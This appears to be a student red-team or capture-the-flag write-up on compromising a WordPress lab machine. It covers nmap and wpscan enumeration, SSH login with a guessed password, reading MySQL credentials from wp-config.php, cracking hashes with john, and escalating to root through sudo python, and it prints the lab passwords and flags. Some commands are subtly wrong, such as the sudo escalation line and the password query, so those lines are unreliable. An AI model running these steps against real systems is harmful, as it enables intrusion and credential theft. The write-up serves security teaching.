




# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

_netdiscover shows the ip addresses of targets and active machines in the network._

```bash
root@Kali:~\# netdiscover -r 192.168.1.255/24
```


Nmap scan results for each machine reveal the below services and OS details:

```bash
root@Kali:~\# nmap -sV 192.168.1.110
```


This scan identifies the services below as potential points of entry:
- Target 1
  - _Port 22/tcp open ssh (service) OpenSSH 6.7p1 Debian 5+deb8u4_ 
  - _Port 80/tcp open Apache httpd 2.4.10 ((Debian))_
  - _Port 111/tcp open rpcbind 2-4 (RPC #100000)_
  - _Port 139/tcp open netbios-ssn Samba smdb 3.X - 4.X (workgroup: WORKGROUP)_
  - _Port 445/tcp open netbios-ssn Samba smdb 3.X - 4.X (workgroup: WORKGROUP)_


The following vulnerabilities were identified on _**Target 1**_:
- _**Target 1**_
  - [CVE-2021-28041 OpenSSH](https://nvd.nist.gov/vuln/detail/CVE-2021-28041)
  - [CVE-2017-15710](https://nvd.nist.gov/vuln/detail/CVE-2017-15710)
  - [CVE-2017-8779](https://nvd.nist.gov/vuln/detail/CVE-2017-8779)
  - [CVE-2017-7494](https://nvd.nist.gov/vuln/detail/CVE-2017-7494)

### Vulnerabilities

These were the vulnerabilities found on _**Target 1**_
  - _Network Mapping and User Enumeration using Wordpress site_
    - _Using nmap we were able to discover open ports on the network._
  - _Weak user passwords_
    - _Users had weak passwords which were easily guessed to **SSH** into the web server._
  - _Unsalted User Password hash on the Wordpress database._
    - _Using the **wpscan** command we were able to identify username information, this information was used to gain access to the web server._
  - _MySQL Data exfiltration_
    - _Gaining access to the MySQL database we were able to view various tables and databases from the wordpress site. By gaining access, this allowed us to view the hashes for certain users._
  - _Wrong configuration of User privs for privilege escalation._
    - _We noticed you were able to use **sudo** with **python** under steven's account, this then allowed us to escalate privs to root by running a python script._


### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
  - _Enumerating the Wordpress users with `wpscan` allowed us to find michael's username which then was used to **SSH** into his user shell._
  - `wpscan --url http://192.168.1.110/wordpress -eu`

  
  

The folling screenshots show the website page visited with the _**Target 1**_ ip address.

  
  

- Target 1
  - `flag1.txt`: _flag1{69bbcb33e11b80be759c4e844862482d}_
    - **Exploit Used**
      - _Viewing source code of the **service.html** page_
      - _ssh into michaels machine to view the `/var/www/service.html` file._
      - _The password was easily guessed which was **michael**_
      - _Commands used: `cd /var/www`, `nano service.html` and then `ctrl+w flag1`_

  
  
  

  - `flag2.txt`: _flag2{fc3fd58dcdad9ab23faca6e9a36e581c}_
    - **Exploit Used**
      - _ssh into michaels machine to view the `/var/www` directory_
      - _Commands used:_
        - `cd /var/www` 
        - `ls -lah`
        - `cat flag2.txt`

  

  - `flag3.txt`: _flag3{afc01ab56b50591e7dccf93122770cd2}_
    - **Exploit Used**
      - _Within michael's shell, we searched for the **MySQL** database password._
      - _Upon finding the **MySQL** password and **User** information, we were then able to use this information to login and find `flag3` located within the **wp\_posts** table_
      - _Commands used:_
        - `cd /var/www/html/wordpress`
        - `ls`
        - `cat wp-config.php`

  
  
  

   - _The credential used to login to the **MySQL** database were:_      - _user: root_
      - _password: R@v3nSecurity_
      - _Command used:_
        - _`mysql -u root -pR@v3nSecurity`_
      - _Commands used to find flag3:_
        - `show databases;`
        - `use wordpress`
        - `show tables;`
        - `select * from wp_posts;`
        - `select user_pass from wp_posts`

  
  
  
  

  - `flag4.txt`: _flag4{715dea6c055b9fe3337544932f2941ce}_
    - **Exploit used**
      - _Used john the ripper to crack the hashes found in the **MySQL** database._
      - _Added hashes to a **wp\_hashes.txt** file_
      - _John found steve's password to be pink84._
      - _Commands used:_
        - `john --wordlist=/usr/share/wordlists/rockyou.txt wp_hashes.txt`
        - `john --show wp_hashes.txt`

  

    - _After cracking steven;s password, we then used it to gain steven's shell._
    - _Commands used:_
      - `ssh steven@192.168.1.110`
      - _password: pink84_
      - _Escalating to root shell._
        - _Checking for sudo privliges._
        - `sudo -l`
        - _This showed that steven had sudo privliges for **/usr/bin/python**_

  
    
    - _Upon revealing there was sudo privliges using python we found a script that would escalate privliges to root._
      - `sudo -c 'import pty;pty.spawn("/bin/bash")'`

  
  
    - _Commands used to find flag4:_
      - `find / -name flag4.txt`
      - `cd /home/steven`
      - `ls`
      - `cat flag4.txt`

  
